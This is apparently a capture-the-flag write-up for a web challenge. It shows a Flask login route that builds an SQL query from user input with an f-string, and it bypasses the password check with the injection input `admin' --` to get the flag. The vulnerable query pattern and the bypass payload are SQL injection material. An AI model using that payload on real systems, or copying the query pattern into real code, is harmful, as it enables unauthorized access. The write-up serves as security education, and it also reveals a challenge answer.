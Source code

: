```yaml
---
created: 2024-06-06T23:50
updated: 2024-06-10T23:20
---
```


## AppVenture Login Part 1

> Well, I haven't taken CS6131 yet but databases should be easy right??

From the description we can see the keyword databases, based on prior knownedge of the module CS6131, we can be pretty sure this is related to SQL.

Since the source operates on a simple template string SQL command, we can apply simple SQL injection and skip the password check.

```python
@app.route("/login", methods=["post"])
def login():
    username = request.form.get('username', default='', type=str)
    password = request.form.get('password', default='', type=str)
    users = db.execute(f"select id from users where name='{username}' and password='{password}'").fetchall()
    if users:
        return Response(flag1, mimetype='text/plain')
    return Response('Login failed', mimetype='text/plain')
```

In SQL, comments can be made with `--`

To skip the password check, we can simply input `admin' --` in username and leave password blank, which would result in the following command

`````sql
select id from users where name='admin' --' and password=''
`````

Everything behind `--` is ignored and we successfully log in as admin

### http://35.240.143.82:4208/login

```
flag{you_can_pass_cs6131_now}
```

Flag obtained
